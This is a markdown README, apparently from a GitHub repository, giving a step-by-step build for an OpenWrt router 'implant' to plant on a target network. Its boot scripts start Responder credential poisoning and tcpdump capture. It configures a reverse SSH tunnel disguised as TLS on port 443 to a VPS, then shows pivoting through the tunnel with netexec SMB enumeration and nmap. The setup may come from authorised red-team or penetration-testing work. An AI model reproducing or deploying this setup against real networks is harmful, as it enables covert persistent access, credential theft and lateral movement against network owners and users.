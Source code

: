 # Openwrt Implant

The post I used to get the usb drive to behave properly: https://forum.gl-inet.com/t/mifi-install-package-on-external-storage-usb-or-sd-card/4332

- There are still issues here and there, but it works for everything I configured it for.

------

- When installing python to usb, symlink to `/usr/bin/python` via command: `ln -s /mnt/usb/usr/bin/python3 /usr/bin/python`
	- This will let pip work properly instead of returning "command not found" since the package is installed on the usb, but the shebang is set to /usr/bin/python which can be checked via `head -n 1 /mnt/usb/usr/bin/pip`

------

Enable `ipv6` on command line:

```ruby
uci set network.wan6.disabled="0"
uci set network.wan.ipv6="1"

wifi reload                                                                     
service network reload    

uci commit wireless                                                                  
uci commit network
```

For some reason the interface is disabled and it has to be enabled on wan which is pointed to `eth0`

------

To start responder on boot:

```bash
#!/bin/sh  

today=$(date +%m_%d_%Y) 
log="$today"_output.log 

/mnt/sda/usr/bin/python3 -u /mnt/sda/Responder/Responder.py -I eth0 -wF -v >> /mnt/sda/logs/$log 2>&1 &
```

Note: for some reason the Proxy flag makes the database be an annoying little bitch so opted for just `-wF flags`

------

To start tcpdump on boot:

```bash
#!/bin/sh

today=$(date +%y%m%d_%H%M%S)
pcap="$today"_output.pcap

tcpdump -ni eth0 -w /mnt/sda/tcpdump_pcap/$pcap 2>&1 &
```

------

Add to `/etc/hotplug.d/iface/99-ifup-wan`

99-ifup-wan script:

```bash
#!/bin/sh

export USB=/mnt/sda
export PATH=$PATH:$USB/usr/bin:$USB/usr/sbin # This PATH is dependent on existing $PATH
export LD_LIBRARY_PATH=$USB/lib:$USB/usr/lib

uci set network.wan6.disabled="0"
uci set network.wan.ipv6="1"

wifi reload
service network reload

# Sleep for 30 seconds so ipv6 can work properly with responder.
# For some reason ipv6 with Responder on OpenWRT is annoyingly finicky and I wasted too much time to want to touch it anymore.
sleep 30

[ "$ACTION" = "ifup" -a "$INTERFACE" = "wan" ] && {                                                   
        logger "iface wan up detected..."                                                     
        sh /mnt/sda/start_responder.sh
        sh /mnt/sda/start_tcpdump.sh > /dev/null # Output anything to /dev/null
        sh /mnt/sda/start_sshproxy.sh # The ssh reverse dynamic proxy script
}                                                                       
exit 0
```

-------
**NOTE: MAKE SURE TO `chmod +x` ALL THE SCRIPT FILES **

#### Stunnel + SSH:

To install stunnel: `opkg update; opkg install -d usb stunnel`

<u>Stunnel config (implant):</u>

Location: `/mnt/sda/etc/stunnel`

```
output  = /mnt/sda/var/log/stunnel4/stunnel.log
cert    = /mnt/sda/etc/stunnel/stunnel.pem
key     = /mnt/sda/etc/stunnel/stunnel.pem
pid     = /mnt/sda/var/run/stunnel4/stunnel.pid
client  =  yes

[ssh]
accept  = 2223
connect = <vps_ip>:443
```

Have to `mkdir -p /mnt/sda/var/log/stunnel4/` and `mkdir -p /mnt/sda/var/run/stunnel4/`

Symlink `/mnt/sda/etc/stunnel` to `/etc/stunnel` so when we run `/mnt/sda/usr/bin/stunnel` in the script without it bitching about the config file.

Command: `ln -s /mnt/sda/etc/stunnel /etc/stunnel`

<u>SSH Script:</u>

Location: `/mnt/sda/start_sshproxy.sh`

```bash
#!/bin/sh

$USB/usr/bin/stunnel

ssh -N -f -p 2223 root@localhost -R 8081:localhost:22
ssh -N -f -p 2223 root@localhost -R 8081
```


<u>Stunnel config (server):</u>

```
output  = /var/log/stunnel4/stunnel.log
cert    = /etc/stunnel/stunnel.pem
key             = /etc/stunnel/stunnel.pem
pid             = /var/run/stunnel4/stunnel.pid

[ssh]
client = no
accept  = 443
connect = 127.0.0.1:22
```

Have to `mkdir -p /mnt/sda/var/log/stunnel4/` and `mkdir -p /mnt/sda/var/run/stunnel4/`

<u>Stunnel config (pc):</u>

```
output = /var/log/stunnel4/stunnel.log
cert=/etc/stunnel/stunnel.pem
key=/etc/stunnel/stunnel.pem
pid=/var/run/stunnel4/stunnel.pid
client=yes

[ssh]
accept = 2223
connect = <vps_ip>:443
```

SSH Commands:

```
ssh -N -f -p 2223 user@localhost -L 8082:localhost:8081 # To ssh onto implant ssh -p 8082 root@localhost
ssh -N -f -p 2223 user@localhost -L 1081:localhost:1080 # So we can proxy everything might not be needed but I don't care right now
```

Refer to proxychains config and example programs below

------
#### SSH Proxy:

###### <u>On router:</u>

Install the client: `opkg update; opkg install openssh-client`

------

- Only the OpenSSH Client is needed thanks to the implantation of reverse dynamic proxy

```ruby
ssh -N -f -R 1080 user@<vps_host>
```

Script:

```bash
#!/bin/sh

ssh -N -f -R 1080 user@<vps_ip>
```

------

- On the vps make sure to enable ufw and only allow the ssh port.
	- Also configure ssh keys whose public key of router and other computer will need to be added to the authorized_keys

###### <u>On personal computer:</u>

```ruby
ssh -N -f -L 1081:localhost:1080 user@<vps_host>
ssh -N -f -D 1081 localhost
```

Edit proxychains:

```ruby
nano /etc/proxychains.conf

...
socks4 127.0.0.1 <port>
```

------

- Run program through proxychains `proxychains <command> <args>`
###### Examples :

<u>NetExec:</u>

- Wiki: https://www.netexec.wiki/
- Install: https://www.netexec.wiki/getting-started/installation/installation-on-unix

------
Command:

```ruby
sudo proxychains /home/alex/.local/bin/netexec smb <local_ip> -u "user" -p "password" --shares
```

<u>Nmap:</u>

- Have to have `-sT`, `-Pn`, and `-n` flags set

------

Command:

```ruby
sudo proxychains nmap -sT -Pn -n <local_ip_range>
```

------
